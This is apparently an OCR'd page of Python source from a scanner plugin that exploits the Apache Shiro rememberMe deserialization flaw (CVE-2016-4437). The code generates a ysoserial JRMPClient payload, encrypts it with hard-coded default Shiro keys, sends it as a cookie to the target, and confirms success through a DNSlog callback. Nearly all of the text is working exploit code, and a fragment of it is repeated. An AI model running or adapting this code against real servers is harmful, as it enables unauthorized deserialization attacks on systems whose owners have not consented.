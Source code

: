 ```python
    AES_MODE = AES.MODE_CBC
    AES_IV = uuid.uuid4().bytes
    payload_url = url
    YsoserialPath=GetToolFilePath().Result()+"ysoserial.jar"
    Pool=ThreadPool()
    try:
        for key in CipherKey:
            DL = Dnslog()
            popen = subprocess.Popen(["java", "-jar", YsoserialPath, ExpClass, DL.dns_host()], stdout=subprocess.PIPE)
            file_body = PAD_FUNC((popen).stdout.read())
            Pool.Append(task,Pool=Pool,Url=url,file_body=file_body,key=key,AES_MODE=AES_MODE,AES_IV=AES_IV,payload_url=payload_url,DL=DL,proxies=proxies,Uid=kwargs.get("Uid"),Sid=kwargs.get("Sid"))
        Pool.Start(20)#启动线程池
    except Exception as e:
        _ = VulnerabilityInfo('').info.get('algroup')
        ErrorLog().Write("Plugin Name:"+_+" ThreadPool ",e)  # 调用写入类传入URL和错误插件名

def task(**kwargs):
    DL=kwargs.get("DL")
    payload_url=kwargs.get("payload_url")
    key=kwargs.get("key")
    url=kwargs.get("Url")
    try:
        encryptor = AES.new(base64.b64decode(key), kwargs.get("AES_MODE"), kwargs.get("AES_IV"))
        base64_ciphertext = base64.b64encode(kwargs.get("AES_IV") + encryptor.encrypt(kwargs.get("file_body")))
        cookies = {"jeesite.session.id": "3f8a61ec-27e2-425c-9724-f96ba0c1e512",
                   "rememberMe": base64_ciphertext.decode()}
        resp=requests.get(payload_url, cookies=cookies,  proxies=kwargs.get("proxies"), timeout=6, verify=False)
        time.sleep(3)
        if DL.result():
            Medusa = "{} 存在ShiroRememberMe反序列化命令执行漏洞(CVE-2016-4437)\r\n验证数据:\r\n漏洞位置:{}\r\n秘钥:{}\r\nHeaders请求头:{}\r\nDNSLOG请求值:{}\r\nDNSLOG数据:{}\r\n".format(
                url, payload_url, key, cookies, DL.dns_host(), DL.dns_text())
            _t = VulnerabilityInfo(Medusa)
            VulnerabilityDetails(_t.info, resp, **kwargs).Write()  # 传入url和扫描到的数据
            WriteFile().result(str(url), str(Medusa))  # 写入文件，url为目标文件名统一传入，Medusa为结果
    except Exception as e:
        _ = VulnerabilityInfo('').info.get('algroup')
        ErrorHandling().Outlier(e, _)
        ErrorLog().Write("Plugin Name:" + _ + " || Target Url:" + url, e)  # 调用写入类传入URL和错误插件名
```

### medusa函数

```python
def medusa(**kwargs)->None:
    url=kwargs.get("Url")#获取传入的url参数
    Headers=kwargs.get("Headers")#获取传入的头文件
    proxies=kwargs.get("Proxies")#获取传入的代理参数
    ExpClass = "JRMPClient"
    CipherKey = ["kPH+bIxk5D2deZiIxcaaaA==", "2AvVhdsgUs0FSA3SDFAdag==", "3AvVhmFLUs0KTA3Kprsdag=="]
    BLOCK_SIZE = AES.block_size
    PAD_FUNC = lambda s: s + ((BLOCK_SIZE - len(s) % BLOCK_SIZE) * chr(BLOCK_SIZE - len(s) % BLOCK_SIZE)).encode()
    AES_MODE = AES.MODE_CBC
    AES_IV = uuid.uuid4().bytes
    payload_url = url
    YsoserialPath=GetToolFilePath().Result()+"ysoserial.jar"
    Pool=ThreadPool()
```